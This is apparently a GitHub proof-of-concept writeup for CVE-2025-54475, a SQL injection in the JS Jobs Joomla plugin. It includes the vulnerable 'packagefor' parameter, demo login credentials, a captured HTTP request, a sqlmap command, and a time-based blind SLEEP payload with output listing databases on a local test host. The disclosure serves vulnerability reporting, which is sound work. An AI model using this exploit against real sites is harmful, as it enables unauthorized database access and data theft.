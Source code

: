 # SQL injection in JS jobs version 1.3.2 - 1.4.4 for Joomla

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-54475

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.3.2-1.4.4 for Joomla allows low-privilege users to execute arbitrary SQL commands.

## POC
An SQL injection vulnerability exists in the JS Jobs (Free) extension via the 'packagefor' parameter and is exploitable as the 'employer' user. To exploit this vulnerability, login as the employer (employer:demo) and go to `employer-control-panel >> My Stuff >> Statistics >> Packages >> Buy Now` and capture the "Buy Now" HTTP request in Burp Suite.

**HTTP Request:**
```
POST /index.php/employer-control-panel/employer-detail-now/package-1/index.php HTTP/2
Host: localhost:8080
Cookie: joomla_user_state=logged_in; 68aa5f2b49e123455s919ea61f1f447badfm7mejnc655fs6cib0geu7ou
Content-Length: 140
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/index.php/employer-control-panel/employer-detail-now/package-1/nav-23
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

task=saveemployerpayment&c=purchasehistory&Itemid=125&packageid=1&option=com_jsjobs&uid=461&packagefor=1&paymentmethod=free&paymentmethodid=
```

**Exploit:**
```
ubuntu@host:~$ python3 ~/tools/sqlmap/sqlmap.py -r req.txt --dbs --batch --dbms=mysql -p 'packagefor' --technique=T --time-sec=1

---
Parameter: packagefor (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: task=saveemployerpayment&c=purchasehistory&Itemid=125&packageid=1&option=com_jsjobs&uid=461&packagefor=1 AND (SELECT 5859 FROM (SELECT(SLEEP(1)))cvNA)&paymentmethod=free&paymentmethodid=
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```